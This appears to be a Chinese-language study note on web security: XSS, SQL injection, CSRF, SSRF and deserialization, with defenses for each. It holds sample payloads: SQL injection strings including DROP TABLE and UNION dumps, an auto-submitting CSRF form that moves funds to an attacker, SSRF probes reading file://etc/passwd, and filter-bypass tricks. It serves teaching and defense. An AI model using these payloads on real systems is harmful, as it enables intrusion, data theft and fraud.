









### Web安全

### XSS 攻击

原理：作为最普遍的网页语言，HTML 非常灵活，你可以在任意时候对 HTML 进行修改。但是，这种灵活性也给了黑客可趁之机：通过给定异常的输入，黑客可以在你的浏览器中，插入一段恶意的 JavaScript 脚本，从而窃取你的隐私信息或者仿冒你进行操作。这就是 XSS 攻击（Cross-Site Scripting，跨站脚本攻击）的原理。

XSS攻击基本分为三种：反射型 XSS、基于 DOM 的 XSS 以及持久型 XSS。

#### 反射型 XSS

在百度中输入`alert('xss');`


#### 基于 DOM 的 XSS

那么和上述例子一样，在基于 DOM 的 XSS 中，也可以通过插入一段`alert('xss');`来执行指定的 JavaScript 脚本。


#### 持久型 XSS


​		相比前面两种 XSS 攻击来说，持久型 XSS 往往具备更强的危害性。因为对于一个反射型或者基于 DOM 的 XSS 来说，需要黑客诱导用户点击恶意的 URL，才能够成功地在用户浏览器上执行 JavaScript 脚本。这对黑客在诱导用户操作方面的能力提出了考验：并不是所有的用户都是小白，一些有经验的用户会在点击链接前进行一定的考虑。而持久型 XSS 则不同，它是将恶意的 JavaScript 脚本写入到了正常的服务端数据库中，因此，只要用户正常的使用业务功能，就会被注入 JavaScript 脚本。所以说，持久型 XSS 在传播速度和传播范围上，会远远超出其他类型的 XSS。

#### 危害

窃取 Cookie、未授权操作、按键记录和钓鱼

#### 防护

1. 验证输入 OR 验证输出


1. 编码


1. 检测和过滤

   但是，在很多时候，编码会对网页实际的展现效果产生影响。比如，原本用户可能想展示一个 1>0，却被编码展示成了 1&gt0。尽管网络环境安全了，却对用户造成了困扰。那么，我们还可以采取哪些方法进行验证呢？接下来我就为你介绍一下检测和过滤。首先，我们需要对用户的内容进行检测。在这里，我们可以采用黑名单和白名单的规则。黑名单往往是我们最直接想到的方法：既然黑客要插入<javascript>标签，那么我们就检测用户内容中是否存在<javascript>标签就好了。但是，黑客的攻击方法是无穷无尽的。你检测了<javascript>，黑客就可以改成<JavaScript>（因为 HTML 标签对大小写不敏感），甚至有些时候还能够编码成javascript等等。另外，HTML5 的发展速度很快，总是有新的标签被开发出来，这些新标签中也可能包含新的注入点。因此，黑名单的更新和维护过程，是需要我们和黑客进行长期对抗的过程所以，在检测中，我更推荐使用白名单的规则。因为白名单的规则比较简单，并且十分有效。比如，在只输入一个分数的地方，规定只有整型变量是合法的。这样一来，你就能够检测出 99.99% 的攻击行为了。

   说完了检测，那当发现某个用户的内容可能存在 XSS 攻击脚本时，我们该怎么处理呢？这个时候，处理选项有两个：拒绝或者过滤。毫无疑问，拒绝是最安全的选项。一旦你发现可能的 XSS 攻击脚本，只要不将这段用户内容展现出来，就能避免可能的攻击行为。但是，拒绝会阻碍用户的使用流程，从用户体验的角度上来考虑的话，过滤会更被用户所接受。上面提到的编码就属于一种过滤的方式。除此之外，我们也可以直接对敏感字符进行替换删除等。需要注意的是，在替换的时候，一定不能采取黑名单的形式（比如：将 javascript 进行删除，那黑客就可以通过 JavaScript 来绕过），而是应该采取白名单的形式（比如，除了 div 之外的标签全部删除）。同样地，过滤的流程也必须彻底。比如，我看到过有人采用下面这行字符串来过滤 javascript 标签：`$str=str_replace('','',$str);`但黑客只需要将 str 的值变成<java<javascript>script>就可以了，因为str_replace('<javascript>','','<java<javascript>script>')的结果就是<javascript>。

2. CSP

   面对 XSS 这样一个很普遍的问题，W3C 提出了 CSP（Content Security Policy，内容安全策略）来提升 Web 的安全性。所谓 CSP，就是在服务端返回的 HTTP header 里面添加一个 Content-Security-Policy 选项，然后定义资源的白名单域名。浏览器就会识别这个字段，并限制对非白名单资源的访问。配置样例如下所示：

   ```
   Content-Security-Policy:default-src ‘none’; script-src ‘self’; 
   connect-src ‘self’; img-src ‘self’; style-src ‘self’;
   ```

   那我们为什么要限制外域资源的访问呢？这是因为 XSS 通常会受到长度的限制，导致黑客无法提交一段完整的 JavaScript 代码。为了解决这个问题，黑客会采取引用一个外域 JavaScript 资源的方式来进行注入。除此之外，限制了外域资源的访问，也就限制了黑客通过资源请求的方式，绕过 SOP 发送 GET 请求。目前，CSP 还是受到了大部分浏览器支持的，只要用户使用的是最新的浏览器，基本都能够得到很好的保护。

总结：

  

### SQL注入

#### 修改where语句

````sql
uName = getRequestString("username");
uPass = getRequestString("password");

sql = 'SELECT * FROM Users WHERE Username ="' + uName + '" AND Password ="' + uPass + '"'
````

````sql
SELECT * FROM Users WHERE Username ="admin" AND Password ="123456"
````

````sql
SELECT * FROM Users WHERE Username ="" AND Password ="" or ""=""
````

#### 执行任意语句

````sql
uid = getRequestString("userId");
sql = "SELECT * FROM Users WHERE UserId = " + uid;
````

````sql
SELECT * FROM Users WHERE UserId = 1；DROP TABLE Users
````

#### 危害

1.绕过验证

2.任意篡改数据

3.窃取数据

如：拖库

````sql
SELECT * FROM Users WHERE UserId = 1 UNION SELECT * FROM Users
````

4.消耗资源

#### 防护

1.使用PreparedStatement

原理：

当数据库在处理一个 SQL 命令的时候，大致可以分为两个步骤：将 SQL 语句解析成数据库可使用的指令集。我们在使用 EXPLAIN 关键字分析 SQL 语句，就是干的这个事情；将变量代入指令集，开始实际执行。之所以在批量处理 SQL 的时候能够提升性能，就是因为这样做避免了重复解析 SQL 的过程。那么 PreparedStatement 为什么能够避免 SQL 注入的问题呢？这是因为，SQL 注入是在解析的过程中生效的，用户的输入会影响 SQL 解析的结果。因此，我们可以通过使用 PreparedStatement，将 SQL 语句的解析和实际执行过程分开，只在执行的过程中代入用户的操作。这样一来，无论黑客提交的参数怎么变化，数据库都不会去执行额外的逻辑，也就避免了 SQL 注入的发生。

代码实例：

````sql
String sql = "SELECT * FROM Users WHERE UserId = ?";
PreparedStatement statement = connection.prepareStatement(sql);
statement.setInt(1, userId); 
ResultSet results = statement.executeQuery();
````

2.使用存储过程

````sql
delimiter $$　　#将语句的结束符号从分号;临时改为两个$$(可以是自定义)
CREATE PROCEDURE select_user(IN p_id INTEGER)
BEGIN
　 SELECT * FROM Users WHERE UserId = p_id;
END$$ 
delimiter;　　#将语句的结束符号恢复为分号

call select_user(1);
````

3.验证用户输入

#### 总结



### CSRF攻击

CSRF（Cross-Site Request Forgery，跨站请求伪造）

#### 攻击

当你在银行页面发起一笔转账时，这个过程其实是通过一个转账接口来完成的。这个接口的内容可能包括下面这些内容：接口地址：http://bank.com/transfer ；HTTP 方法：POST；接口参数：to（目标账户）、amount（金额）。在转账之前，你肯定进行了一次登录。这样一来，这个转账接口就可以通过你之前存储在 Cookie 中的相关字段来完成认证了。所以，这个接口参数中不需要包含任何身份认证相关的信息。也正是因为如此，这个接口满足了 CSRF 攻击的基本条件：使用 Cookie 进行认证；参数中不包含任何隐私信息。于是，黑客可以构造一个如下的空白网页。我们假设这个网页的地址为 hacker.com。

````html
<html>
  <body>
    <form action="http://bank.com/transfer" method="POST">
      <input type="hidden" name="to" value="hacker" />
      <input type="hidden" name="amount" value="10000.00" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
````

在 HTML 中，<script>标签内的 JavaScript 脚本会在打开网页的时候自动执行。因此，一旦用户访问了这个 hacker.com 的页面，它就会自动提交 form 表单，向http://bank.com/transfer这个接口（假设为转账接口）发起一个 POST 请求。其中，to 和 amount 这两个参数，代表着用户向黑客的账号转账 10000 元。只要这个用户之前登录过 bank.com，并且账户余额大于 10000 元，那么黑客就能够成功地收到这 10000 元的转账了。在这个网页中，<input>的标签带有“hidden”属性，所以这整个过程对于用户来说都是不可见的。



#### 危害

和 XSS 一样，CSRF 也可以仿冒用户去进行一些功能操作的请求，比如修改密码、转账等等，相当于绕过身份认证，进行未授权的操作。值得一提的是，尽管黑客通过 CSRF 能进行的操作没有 XSS 丰富，但 CSRF 在传播和攻击成本上都低于 XSS。这也就是说，即使你的网页中没有任何注入漏洞，但只要接口配置不当，就能够被 CSRF 利用。而黑客也只需要在自己的域名中，搭建一个诱导性的网页，就可以让任何访问网页的用户都遭受到 CSRF 攻击。而且，用户每天需要访问大量的网页，根本没有办法确认每一个网页的合法性。而从严格意义上来说，用户根本没有办法防止 CSRF 攻击。因此，我们只能从应用本身入手去加强防护。

#### 防护

行业内标准的 CSRF 防护方法是 CSRFToken。

CSRF 是通过自动提交表单的形式来发起攻击的。所以，在前面转账的例子中，黑客可以通过抓包分析出 http://bank.com/transfer 这个接口所需要的参数，从而构造对应的 form 表单。因此，我们只需要在这个接口中，加入一个黑客无法猜到的参数，就可以有效防止 CSRF 了。这就是 CSRF Token 的工作原理。



也可以通过二次验证来加强防护

#### 总结

简单来说，CSRF 其实就是黑客利用浏览器存储用户 Cookie 这一特性，来模拟用户发起一次带有认证信息的请求，比如转账、修改密码等。防护 CSRF 的原理也很简单，在这些请求中，加入一些黑客无法得到的参数信息即可，比如 CSRF Token 或者独立的支付密码等。

### SSRF攻击

SSRF（Server Side Request Forgery，服务端请求伪造）也就是内网穿透

#### 原理

在 CSRF 中，黑客通过诱导用户访问某个网站，让用户的浏览器发起一个伪造的请求。那么，如果服务端发起了这个伪造的请求，又会发生什么呢？我们知道，服务端也有代理请求的功能：用户在浏览器中输入一个 URL（比如某个图片资源），然后服务端会向这个 URL 发起请求，通过访问其他的服务端资源来完成正常的页面展示。这个时候，只要黑客在输入中提交一个内网 URL，就能让服务端发起一个黑客定义的内网请求，从而获取到内网数据。这就是 SSRF的原理。而服务端作为内网设备，通常具备很高的权限，所以，这个伪造的请求往往因为能绕过大部分的认证和授权机制，而产生很严重的后果。



#### 危害

内网探测

在前面百度搜图的例子中，我们请求的地址是：https://image.baidu.com/search/detail?objurl=http://s1.sinaimg.cn/picture.jpg。因为http://s1.sinaimg.cn/picture.jpg会正常返回一个图片，所以网页会展示出来对应的图片。我们假定这样一个服务端逻辑：在这个请求过程中，服务端会判断 objurl 返回数据的 Content Type 是否为 image/jpeg。那么，可能的返回结果就有三种：“是”，则展示图片；“不是”，则返回“格式错误”；无响应，则返回“找不到图片”。基于这三种返回逻辑，黑客可以构造一个恶意的请求地址：https://image.baidu.com/search/detail?objurl=127.0.0.1:3306。如果服务器返回“格式错误”，则代表服务端本地的 3306 端口可用；如果返回“找不到图片”，则代表不可用。我们知道，3306 是 MySQL 对应的端口号，因此，根据这个返回的信息，黑客就能够知道服务端本地是否开启了一个 MySQL 服务。接下来，黑客只需要不断重复这个过程，尝试不同的 IP 和端口号，就能够一点一点探测出整个内网的结构。

文件读取

服务器除了对图片的代理不做合法性判断之外，对很多其他的代理也不做判断，而是直接将代理的结果返回到前端。我们称这种情况为“有回显的 SSRF”。在这种情况下，黑客不仅能够知道请求是否成功了，还能够知道具体返回的内容。这时候你肯定会好奇，黑客究竟是怎么做到呢？在 URI 中，开头的 http:// 和 https:// 代表需要使用什么协议去进行请求。除了 HTTP 之外，URI 还有很多种协议可以选择，比如 file:// 就是直接读取本地的文件。通过输入 file://etc/passwd，黑客就能够通过一个请求获取到本地的 passwd 文件，从而知道本地有哪些用户。经过不断地尝试，黑客就能够把整个服务器中的文件内容都给拉取出来，这其中包括密钥、源码等极度敏感的信息。我曾经就遇到过一个黑客。他通过 SSRF 攻击拿到了服务端的源码，然后通过对源码的分析，找到了一个 SQL 注入的漏洞，再利用 SSRF 发起对内网的 SQL 注入攻击，从而拿到了内网的命令执行权限。

#### 防护

白名单限制、协议限制和请求端限制

​		白名单的限制永远是最简单、最高效的防护措施。 SSRF 中的白名单，就是对用户提交上来的目标 URL 进行限制。比如，只允许是同一个域名下的 URL。你可以理解为，让百度图片的代理服务只允许代理 baidu.com 的 URL。但是，很多时候，因为业务功能的设计，白名单的限制并不可行。比如，上述百度图片的例子，这个功能的设计思路就是，baidu.com 这个域名下能够请求各类域名下的图片资源（比如上述例子中的 sinaimg.cn）。

​		在这种时候，我们可以对协议和资源类型等进行限制。比如：对于使用协议，我们只允许 HTTP 或者 HTTPS 协议；对于返回的内容，我们只允许图片格式的内容。通过这些限制，虽然不能完全阻止黑客发起 SSRF 攻击，但也大大降低了黑客能够造成的危害。

​		除此之外，因为 SSRF 最终的结果，是接受代理请求的服务端发生数据泄漏。所以，SSRF 防护不仅仅涉及接收 URL 的服务端检测，也需要接受代理请求的服务端进行配合。在这种情况下，我们就需要用到请求端限制，它的防护措施主要包括两个方面。

​		第一，为其他业务提供的服务接口尽量使用 POST，避免 GET 的使用。因为，在 SSRF 中（以及大部分的 Web 攻击中），发起一个 POST 请求的难度是远远大于 GET 请求的。因为默认的请求方式是 GET，而发起 POST 请求，需要在发起 HTTP 请求的时候进行配置。很多安全漏洞中不包含能够配置协议的地方。在上述百度图片的例子中，黑客显然就只能发起 GET 请求。如果某个敏感服务是 POST 的，黑客就无法请求到相关资源了。

​		第二，为其他业务提供的服务接口，最好每次都进行验证。通过 SSRF，黑客只能发起请求，并不能获取到服务端存储的验证信息（如认证的 key 和 secret 等）。因此，只要接受代理请求的端对每次请求都进行完整的验证，黑客无法成功通过验证，也就无法完成请求了。

#### 总结



### 反序列化漏洞

#### 原理

​		这个过程的确比较烧脑。我带你再来总结一下，简单来说，其实就是以下 4 步：

1.黑客构造一个恶意的调用链（专业术语为 POP，Property Oriented Programming），并将其序列化成数据，然后发送给应用；

2.应用接收数据。大部分应用都有接收外部输入的地方，比如各种 HTTP 接口。而这个输入的数据就有可能是序列化数据；

3.应用进行反序列操作。收到数据后，应用尝试将数据构造成对象；

4.应用在反序列化过程中，会调用黑客构造的调用链，使得应用会执行黑客的任意命令。

​		那么，在这个反序列化的过程中，应用为什么会执行黑客构造的调用链呢？这是因为，反序列化的过程其实就是一个数据到对象的过程。在这个过程中，应用必须根据数据源去调用一些默认方法（比如构造函数和 Getter/Setter）。

#### 危害

​		通过反序列化漏洞，黑客可以调用到Runtime.exec()来进行命令执行。换一句话说，黑客已经能够在服务器上执行任意的命令，这就相当于间接掌控了你的服务器，能够干任何他想干的事情了。

#### 防护

认证、限制类和 RASP 检测。

1.认证和签名

首先，最简单的，我们可以通过认证，来避免应用接受黑客的异常输入。要知道，很多序列化和反序列化的服务并不是提供给用户的，而是提供给服务自身的。比如，存储一个对象到硬盘、发送一个对象到另外一个服务中去。对于这些点对点的服务，我们可以通过加入签名的方式来进行防护。比如，对存储的数据进行签名，以此对调用来源进行身份校验。只要黑客获取不到密钥信息，它就无法向进行反序列化的服务接口发送数据，也就无从发起反序列化攻击了。

2.限制序列化和反序列化的类

在反序列化漏洞中，黑客需要构建调用链，而调用链是基于类的默认方法来构造的。然而，大部分类的默认方法逻辑很少，无法串联成完整调用链。因此，在调用链中通常会涉及非常规的类，比如，刚才那个 demo 中的 InvokerTransformer。我相信 99.99% 的人都不会去序列化这个类。因此，我们可以通过构建黑名单的方式，来检测反序列化过程中调用链的异常。在 Fastjson 的配置文件中，就维护了一个黑名单的列表，其中包括了很多可能执行代码的方法类。这些类都是平常会使用，但不会序列化的一些工具类，因此我们可以将它们纳入到黑名单中，不允许应用反序列化这些类（在最新的版本中，已经更改为 hashcode 的形式）。我们在日常使用 Fastjson 或者其他 JSON 